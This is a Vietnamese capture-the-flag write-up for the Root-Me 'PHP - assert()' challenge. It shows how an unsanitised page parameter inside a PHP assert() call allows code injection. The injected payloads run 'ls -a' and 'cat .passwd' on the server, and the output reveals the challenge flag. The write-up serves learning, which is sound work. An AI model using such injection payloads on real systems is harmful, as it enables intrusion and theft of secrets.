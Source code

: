 # [PHP - assert()](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)

## Solutions

- Khi bấm vào nút home thì gửi request có url `/web-serveur/ch47/?page=home`
- Thay đổi thử query parameter:
  - `/web-serveur/ch47/?page=aaa`: kết quả => 'includes/aaa.php'File does not exist
  - `/web-serveur/ch47/?page=../index`: kết quả => Warning: assert(): Assertion "strpos('includes/../index.php', '..') === false" failed

- Có thể thấy trong file index.php có gọi hàm assert với $assertion là `a string containing an expression`, trong đó query parameter sẽ được đưa vào giữa string này.

- Thử command injection:
  - "strpos('includes/','a') === false and system('ls -a') or strpos('.php', '..') === false"
  - Kết quả:

    ```text
    .
    ..
    ._nginx.http-level.inc
    ._nginx.server-level.inc
    ._perms
    ._php53-fpm.pool.inc
    .git
    .passwd
    includes
    index.php
    'includes/','a') === false and system('ls -a') or strpos('.php'File does not exist
    ```

- Đã thấy file .passwd:
  - "strpos('includes/','a') === false and system('cat .passwd') or strpos('.php', '..') === false"
  - Kết quả:

    ```text
    The flag is / Le flag est :
    x4Ss3rT1nglSn0ts4f3A7A1Lx
    Remember to sanitize all user inp...
    ```

## References

- 4 8 15 16 23 42: <https://lostpedia.fandom.com/wiki/The_Numbers#:~:text=Josephus%20Flavius%20%5B10%5D%20was%20a%201st%20century%20Jewish%20historian.&text=The%20elements%20with%20the%20atomic,%2C%20vanadium%2C%20and%20molybdenum%20respectively>.

- assert(): <https://code.tutsplus.com/articles/how-to-use-assert-in-php--cms-39647>
